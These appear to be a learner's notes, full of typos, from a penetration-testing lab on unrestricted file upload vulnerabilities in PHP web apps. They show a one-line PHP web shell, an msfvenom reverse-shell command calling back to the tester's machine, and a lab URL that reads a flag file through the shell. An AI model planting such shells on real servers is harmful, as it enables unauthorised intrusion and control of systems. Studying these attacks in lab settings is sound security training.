

# Absent Validation:
The most basic type of file upload vulnerability occurs when the web app does not have any form of validation filters on the upload files.
With this types of vulnerability web apps, we may directly upload our web shell or reverse shell script to the web app, and then by visiting the uploaded script, we can interact with oir web shell or send reverse shell.

- Arbitrary File Upload:
Will see an Employee File manager web app, which allows upload personal file to the web app.
The web app does not mention anything about what file types are allowed, and we can drag and drop any file we want and its name will appear on the upload form including .php files.
IF we click selector dialog does not specify any types as its says all files for the file type, which may also suggest that not type restrictions or limitation are specific for the web app.

- Identifying Web Framework:
Web neet to upload a malicius script to test whether we can upload any file type to the back-end server and test whether we can use this to exploit the back-end server.
Many kinds of scripts can help us exploit web app through Arbitrary file upload, most commonly a web shell sript and a reverse shell script.

A web shell provides us with an ez method to interact  with the back-end server by accepting shell commands and printing their output back to us within the web browser.
A web shell to be written in the same programming language the runs the web server, as it runs plataform-specific funtions and commands to execute system commands on the back-end server.
Making web shell non-cross-plataform script. First would be to identify what language runt the web app.

This is usually relatievy simple, as we can often the web page extension in the URL, which may reveal the programming languages that runs the web app. In certain web frameworks and web languages, Web Routes are used to map
URLs to web pages, in which case the web page extension may not be shown. File upload explotation would also be different  as our uploaded files may not be directly routable or accessible.
One ez method to determine what languages runs the web app is to visit the [/index.txt] page, where we would swap out exp with various common web extension, like [php, asp, aspx] among others, to see whether any of them exists.

When we visit our exercise below, we see its URL as [http://server:port], as the index page is usually hidden by default. We try to visit [http://server:port/index.txt] we would get the samme page
which means that this is indeed a PHP web app. We do not need to do this manually, as we can use a tool like burp intruder for fuzzing the file extension using a Web extension [~/Dictionaries/SecLists/Discovery/Web-Content/web-extensions.txt] wordlistm,
as we'll see in upcoming sections. This method may not always  be accuraate, as the web app may no utilize index pages or may utilize more than on web extension.
Using Wappalyzer extension, which is avaliable for all major browser. ONce added to our browser, we can click its the view all tech running the web app.

Not only did extension tell us that the web app runs on PHP, but it also identified the type and version of the web server, the back-end operation system, and other tech in use.
These extension are essential in a web penetration tester arsenal, though it's always better to know alternative manual mathods to identify the web framework, like the earlier method we discussed.

- Vulnerability identification:
Now that we have identified the web framework running the web app anf its programming languages, we can test whether we can upload a file with the same extension. Initial test to identify whether we can upload arbitrary PHP, files.
The file appears to have successfully been uploaded, as we get message saying File successfully uploaded, which means that the web app has no file validation whatsoever on the back-end. We can click the Download button, and the web app
will take us to our uploaded files.
    - Create the script to executes the Hostname command.
```php
<?php
$hostname = shell_exec('hostname');
echo "server host: " . htmlspecialchars($hostname);
?>
```



# File Upload Explotation:
The final step in exploating this web app is to upload the malicius script  in the same language as the web app, like a web shell or reverse shell script.
Once we uplooad our malicius script and visit its link, we should be able to interact with it to take control over the back-end.
- Web shell:
Web can find many excellent web shell online that provide useful ft, like directory travesal or file transfe. One good option for PGP is [phpbash](https://github.com/Arrexel/phpbash), which
provides a terminal-like, semi-interactive web shell/. We can be found in the /opt/useful/seclist/web-shell directly PwnBox.
We can Download any of these web shell for language of our web app then upload it through the vulnerable upload ft, and visit uploaded file to interact with the web-shell.
phpbash.php form ori web app, and the navigate to its link click Download.

- Writing Custom Web shell:
Using web shell form online resources can provide a great experience, we should also know how to write a simple web shell manually. This is cause we may not have assess to online
tools during some penetration test, so we cneed to be able to create one when needed.
With php we can use [system()] funtion that executes sytem commands and prints their output, and pass it the cmd parameter with [$_REQUEST['cmd']]
`<?php system($_REQUEST['cmd']);?>`

This may not be ez to use as other web shells we can find online, but still provides and interact method for sending commands and reitriving their output.
> [!TIP]
> IF we are using this custom web shell in browser, it may be best to use source-view by click CTRL+U,  as the source view shows the command out as it would be shown in the terminal, HTML rendering that may affect
> how the output is formatted.

We can find various other web shells onlimne may of which can be ez memorized for web penetration testing purpouses. It must be noted that in certain cases, web shells may not work.
This may be due to the web server preventing the use of some funtions utilized by the web shell or due to a web app firewasll, among other reason. We may need to use advanced tech to bypass
these security  mitigation.

- Reverse Shell:
Let's see how we can receive reverse shell through the vulnerable upload funtionality. We should start by Downloading a reverse shell script in the lenguage of the web app. One reliable reverse for PHP is the
[pentestmonkey] PHP reverse shell.
We must to change the ip and port, then netcat for the listeing.

- Generating Custom Reverse Shell script:
We can also create our own reverse shell script. While it's possible to use the same previous system funtion and pass  ot reverse shell command, thios may not always be very reliable, as the command may faul for many reasons,
just like any other revrse command.

This is why is always better to use code web frameworks funtions to connect to our machine. This may no be as ez to memeoru as web shell script. tools like msfvenom can generate reverse.
`msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` and then netcat.

Get the flag.txt
Payload = `<?php system($_REQUEST['cmd']); ?>`
URL [http://94.237.58.172:45295/uploads/script.php?cmd=cat%20/flag.txt]
